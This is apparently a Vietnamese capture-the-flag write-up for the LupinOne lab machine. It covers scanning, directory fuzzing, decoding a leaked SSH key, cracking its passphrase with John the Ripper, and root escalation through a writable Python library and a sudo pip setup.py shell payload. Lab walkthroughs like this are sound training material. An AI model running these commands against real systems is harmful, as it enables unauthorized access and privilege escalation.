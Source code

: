 ## Step 1
Máy LupinOne

![image](https://user-images.githubusercontent.com/97771705/222322292-994cb730-ae7e-4707-a1e6-db79ccfe6bd3.png)

Tại máy Kali, nhập lệnh **netdiscover -r 10.0.2.0/24** để tìm kiếm ip của máy Lupin

![image](https://user-images.githubusercontent.com/97771705/222322533-3a8528a7-6f13-40ae-8411-47ff2b94e9ca.png)

Sử dụng lệnh **nmap -sC -sV 10.0.2.4**

![image](https://user-images.githubusercontent.com/97771705/222322990-7565d92b-022d-4686-97f1-0a41c2b17313.png)

Ta tìm thấy 2 port:
- Port 22 có SSH server
- Port 80 có Apache Sever và 1 file /~myfiles

Ta thử đọc ~myfiles

![image](https://user-images.githubusercontent.com/97771705/222323732-50598bf4-b7bd-4fab-bd34-9e386fe4e7f1.png)

Lỗi 404 not found, tiếp tục nhấn f12 để xem source code

![image](https://user-images.githubusercontent.com/97771705/222323930-96023d8a-aa11-4335-84b0-dcdb131c1279.png)

## Step 2
Tiến hành fuzzing để tìm kiếm thư mục ẩn
Ta dùng lệnh **ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u 'http://10.0.2.4/~FUZZ'**
+ Sử dụng công cụ **ffuf** để thực hiện directory attack, tìm kiếm xem có thư mục nào có tên trong list hay không
+ **-c** là khi tìm thấy thì in màu nổi bật hơn (như hình thì là màu xanh)
+ **-w** là path tới tập tin danh sách từ điển đối chiếu. Trên kali có sẵn tại path **/usr/share/wordlists/dirbuster/**, và ta chọn tệp **directory-list-2.3-small.txt**
+ **-u** là URL muốn fuzz, trong đó  **FUZZ** là vị trí cần tìm 
+ **~** được sử  dụng cho cả thư mục lẫn tệp

![image](https://user-images.githubusercontent.com/97771705/222328117-df4ea8bb-07cc-4ef3-b513-43801cdcae9a.png)

![image](https://user-images.githubusercontent.com/97771705/222328143-f96fd0da-7054-4640-ba3d-6f82b262d87d.png)

Truy cập **http://10.0.2.4/~secret** 

![image](https://user-images.githubusercontent.com/97771705/222328385-2bc8f2aa-75bf-4985-b334-a8b2c51efb95.png)

Thông tin cho ta biết SSH private key đang nằm đâu đó trong thư mục này. Ta phải tìm và crack passphrase của private key đó
Ta dùng lệnh **ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u 'http://10.0.2.4/~secret/.FUZZ' -e .txt,.html**
+ **.** sử dụng cho tệp
+ **-e .txt,.html** để tìm kiếm file với đuôi txt, html

![image](https://user-images.githubusercontent.com/97771705/222330744-4bd68b23-7f11-437b-8878-4242bc1f951f.png)

Ta tìm thấy file **mysecret.txt** 
Truy cập thử 

![image](https://user-images.githubusercontent.com/97771705/222330959-c0104c45-999b-4a47-bf4e-cf60e55e1ce3.png)

Đưa lên dcode.fr, phát hiện đây là mã base58

![image](https://user-images.githubusercontent.com/97771705/222331199-b8bc25b8-40a5-4ce5-9498-983b74712268.png)

Giải mã base 58, ta được open ssh private key

![image](https://user-images.githubusercontent.com/97771705/222331415-ea5b41dc-6563-4817-9122-1c0d64906cef.png)

## Step 3
Private key này có passphrase bảo vệ. Hiểu đơn giản passphrase là một mật khẩu được sử dụng để bảo vệ và mã hóa private key SSH. Khi tạo ra private key, người dùng có thể tạo ra một passphrase để đảm bảo rằng chỉ có người dùng được ủy quyền mới có thể sử dụng private key. Khi một người dùng muốn sử dụng private key, họ sẽ được yêu cầu nhập passphrase để giải mã key trước khi sử dụng nó. Điều này giúp đảm bảo an toàn cho key trong trường hợp nó bị đánh cắp hoặc lộ ra ngoài.

Lưu SSH Private Key vào 1 file **key.txt**

Sử dụng tool **John the Ripper** để Brute-force passphrase của SSH Private Key

Command **ssh2john** của John the Ripper được sử dụng để chuyển đổi private key của SSH sang định dạng mà John the Ripper có thể sử dụng để tấn công bằng cách thử các passphrase khác nhau.

Sử dụng lệnh **/usr/share/john/ssh2john.py key.txt > pass.txt**

![image](https://user-images.githubusercontent.com/97771705/222358294-2edff0bb-f19d-4c30-846e-919554270e0e.png)

Trong **~secret** cũng đề cập tới fasttract. Đây là 1 file có sẵn trong wordlist của kali, có thể sử dụng để bruteforce

Sử dụng lệnh **john pass.txt --wordlist=/usr/share/wordlist/fasttract.txt**

![image](https://user-images.githubusercontent.com/97771705/222359062-465d986e-97f0-42a2-9432-87b0f89e346c.png)

Bruteforce thành công passphrase của SSH private key! (P@55w0rd!)

## Step 4
Sử dụng lệnh **ssh -i key.txt icex64@10.0.2.4**
+ **-i key.txt** chỉ định đường dẫn tới file chứa private key để đăng nhập vào máy chủ từ xa. File key này sẽ được sử dụng để xác thực cho việc đăng nhập, thay vì sử dụng mật khẩu.
+ icex64 là tên người dùng trên máy chủ từ xa mà ta muốn đăng nhập.
+ 10.0.2.4 là địa chỉ IP của máy chủ từ xa mà ta muốn truy cập.

Sau khi nhập đúng passphrase, đăng nhập thành công LupinOne

![image](https://user-images.githubusercontent.com/97771705/222363678-787c115d-bc33-4bcc-9898-c8cab33af860.png)

Tìm kiếm thư mục của máy 

![image](https://user-images.githubusercontent.com/97771705/222363964-ecf32a13-7716-4305-910b-e1f9a16261c1.png)

Đọc **user.txt** ta được flag đầu tiên

![image](https://user-images.githubusercontent.com/97771705/222364174-a1f92062-8d93-4db0-85a8-426f21d94908.png)

> 3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}

## Step 5
Dùng vài lệnh cơ bản để kiểm tra tên người dùng và các thư mục thông thường

![image](https://user-images.githubusercontent.com/97771705/222367163-323cb1fe-e204-4379-97d2-72c42f03aaf5.png)


Sử dụng lệnh **sudo -l** để xem quyền của user icex64, nó sẽ hiển thị danh sách các lệnh mà người dùng hiện tại được phép thực thi với đặc quyền hạn của tài khoản root hoặc các tài khoản khác có quyền truy cập đặc biệt.

![image](https://user-images.githubusercontent.com/97771705/222366966-1e5d0434-28a5-425e-ba74-88a62990e783.png)

icex64 có thể run 1 tập tin python. Đọc thử

![image](https://user-images.githubusercontent.com/97771705/222367836-7f6f99a7-0a38-4ec2-ad74-c265365d97cf.png)

Ta thử tìm kiếm file có quyền rwx cho tất cả người dùng bằng lệnh **find / -type f -perm -ug=rwx**
![image](https://user-images.githubusercontent.com/97771705/222369987-c0272716-e84f-41f7-9bc2-8db7f23722f2.png)

File python mà icex64 có thể run chứa đoạn import webbrowser, đây cũng có tập tin webbrowser.py

Xem quyền sở hữu của file webbrowser.py -> người dùng root
![image](https://user-images.githubusercontent.com/97771705/222373300-17896e59-2829-45f9-b0e7-5b829d44a25e.png)

Quyền của file này là 777, tức là bản thân icex64 cũng có thể chỉnh sửa, thực thi file -> bắt đầu leo thang đặc quyền.

## Step 6
Sử dụng lệnh nano để chỉnh sửa tệp. Thêm **os.system("/bin/bash")**
![image](https://user-images.githubusercontent.com/97771705/222376371-137c621a-6cf8-49e0-a1cd-6a9f62cc83de.png)

```
Trong Python, "os.system()" là một hàm cho phép thực thi các lệnh hệ thống hoặc các tiến trình bên ngoài. Khi chạy lệnh "os.system("/bin/bash")", nó sẽ thực thi lệnh "/bin/bash" trên hệ thống.

Lệnh "/bin/bash" được sử dụng để mở một cửa sổ dòng lệnh Bash trên hệ thống Linux hoặc macOS. Nếu lệnh được thực thi thành công, một cửa sổ dòng lệnh Bash mới sẽ được mở ra, cho phép người dùng nhập các lệnh để thực thi trên hệ thống.
```

Nhập lệnh **sudo -u arsene /usr/lib/python3.9 /home/arsene/heist.py**
![image](https://user-images.githubusercontent.com/97771705/222379224-0d08f4ec-aa8c-4e69-881c-de6ef03cbad4.png)

Xem 1 vài file trên home của arsene

![image](https://user-images.githubusercontent.com/97771705/222381533-ea7d720e-4c14-4377-bc9c-013b85778e7e.png)

User arsene có quyền root thực thi file /usr/bin/pip

![image](https://user-images.githubusercontent.com/97771705/222385595-4529dc20-92f1-4ac3-8a53-97dbf18e2b5c.png)

Thực thi 3 lệnh sau
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```
![image](https://user-images.githubusercontent.com/97771705/222388785-008e7b0d-f9db-4e0a-a264-252e2c3c550c.png)
![image](https://user-images.githubusercontent.com/97771705/222388841-cd4fd85f-eb76-4f24-a07c-f66b3d6e45a0.png)

>3mp!r3{congratulations_you_message_to_pwn_the_lupin1_box}


